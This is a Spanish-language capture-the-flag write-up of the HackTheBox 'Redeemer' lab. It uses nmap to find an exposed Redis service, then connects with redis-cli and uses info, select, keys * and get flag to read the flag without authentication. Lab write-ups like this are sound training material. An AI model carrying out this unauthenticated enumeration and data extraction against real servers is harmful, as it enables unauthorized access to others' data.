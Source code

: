```yaml
---
title: HackTheBox - Redeemer
date: 2023-05-16
categories: [Hackthebox, HTB-VeryEasy]
tags: [Starting Point, Linux]
image:
  path: ../../assets/img/post/redeemer/redeemer.png
  width: 800
  height: 500
  alt: Banner redeemer
---
```


 
Vamos a estar resolviendo la maquina numero 4 del starting point, (tier 0).

Esta corre con redis database, El nombre Redis proviene de las iniciales de Remote Dictionary Server (servidor de diccionario remoto), un tipo de servidor apto como memoria rápida para datos. 

## Task 1. Which TCP port is open on the machine?

*¿Qué puerto TCP está abierto en la máquina?*

Realicemos el escaneo con nmap a la maquina victima: 
```bash
sudo nmap -sV nmap -sV -p- --min-rate 5000 10.129.183.46
```
Nos Responde:

```bash
❯ sudo nmap -sV nmap -sV -p- --min-rate 5000 10.129.183.46
Starting Nmap 7.93 ( https://nmap.org/ ) at 2022-12-28 17:40 -05
Failed to resolve "nmap".
Warning: 10.129.183.46 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.183.46
Host is up (0.22s latency).
Not shown: 65478 closed tcp ports (reset), 56 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.83 seconds 
```

En nuestro escaneo vimos que el puerto abierto de la maquina victima es: 
```text
6379
```

## Task 2. Which service is running on the port that is open on the machine?

*¿Qué servicio se está ejecutando en el puerto que está abierto en la máquina?*

Como vimos en el escaneo anterior, esta maquina tiene el servicio de:
```text
redis
```

## Task 3. What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database

*¿Qué tipo de base de datos es Redis? Elija entre las siguientes opciones: (i) Base de datos en memoria, (ii) Base de datos tradicional*

Esto basta con investigar un poco en nuestro amigo google:
```text
In-memory Database
```

## Task 4. Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.

*¿Qué utilidad de línea de comandos se usa para interactuar con el servidor Redis? Ingrese el nombre del programa que ingresaría en la terminal sin ningún argumento.*

```text 
redis-cli
```
## Task 5. Which flag is used with the Redis command-line utility to specify the hostname?

*¿Qué bandera se usa con la utilidad de línea de comandos de Redis para especificar el nombre de host?*

Si consultamos la documentacion de redis, nos fijamos que el parametro es:

```text
-h
```
Vamos a lanzar el siguiente comando para conectarnos al servicio de la maquina victima: 
```bash
redis-cli -h 10.129.241.238
```

## Task 6. Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?

*Una vez conectado a un servidor Redis, ¿qué comando se utiliza para obtener la información y estadísticas sobre el servidor Redis?*

```text 
info
```
Luego de utilizar este comando, esto nos va a listar toda la informacion del servicio redis de la maquina victima.

## Task 7. What is the version of the Redis server being used on the target machine?

*¿Cuál es la versión del servidor Redis que se usa en la máquina de destino?*

En el resultado que recibimos en el comando ejecutado anteriormente, podemos ver la version de redis de la maquina.

```bash 
# Server
redis_version:5.0.7  <--- Aqui
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
```

## Task 8. Which command is used to select the desired database in Redis?

*¿Qué comando se usa para seleccionar la base de datos deseada en Redis?*

```text
select
```
## Task 9. How many keys are present inside the database with index 0?

*¿Cuántas claves están presentes dentro de la base de datos con índice 0?*

Primero con el comando anterior vamos a selecionar el index 0:
```text
select 0
```
Luego vamos a listar las keys que tenemos presentes en este espacio:
```text
keys *
```
Con el '*' indicamos que queremos que nos muestre todo.

```text
10.129.241.238:6379> keys *
1) "temp"
2) "numb"
3) "flag"  <-- Lo que Buscamos 
4) "stor"
```
En nuestro resultado mirammos que tenemos 4 keys presentes en el index 0.

## Task 10. Which command is used to obtain all the keys in a database?

*¿Qué comando se utiliza para obtener todas las claves de una base de datos?*

```text
keys *
```

## Submit root flag

En el espacio 3, miramos la flag, para obtenerla utilizamos get
```text
get flag
```

```text
10.129.241.238:6379> get flag
"03e1d2b376c37ab3f5319922053***"
```

